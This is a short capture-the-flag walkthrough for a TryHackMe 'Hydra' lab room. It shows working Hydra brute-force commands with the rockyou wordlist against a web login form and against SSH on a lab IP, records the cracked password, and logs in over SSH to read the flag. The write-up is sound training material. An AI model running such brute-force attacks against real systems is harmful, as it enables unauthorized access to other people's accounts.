 # Hydra
+ Link: https://tryhackme.com/r/room/hydra
+ Type: Walkthrough

+ Target IP Address: 10.10.50.153

## Tools
+ Hydra

## External Resources
+ https://infinitelogins.com/2020/02/22/how-to-brute-force-websites-using-hydra/

## Task 1
1. Went to http://10.10.50.153 and looked at the source code. Found it uses the POST method.
2. `hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.50.153 http-post-form "/login:username=^USER^&password=^PASS^:F=Your username or password is incorrect." -V` to find the web form password.  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room03/Screenshots/1.png)
  
3. Logged into the website using the given username and the hydra-ed password to find the flag.
4. `hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.50.153 -t 4 ssh` to find the SSH password.  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room03/Screenshots/2.png)
  
5. `ssh molly@10.10.50.153` with password butterfly.  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room03/Screenshots/3.png)
  
6. `ls` and `cat <file name>` to display the flag.

## Learned
+ Generally, don't use `-V` in Hydra, because it makes the output less readable.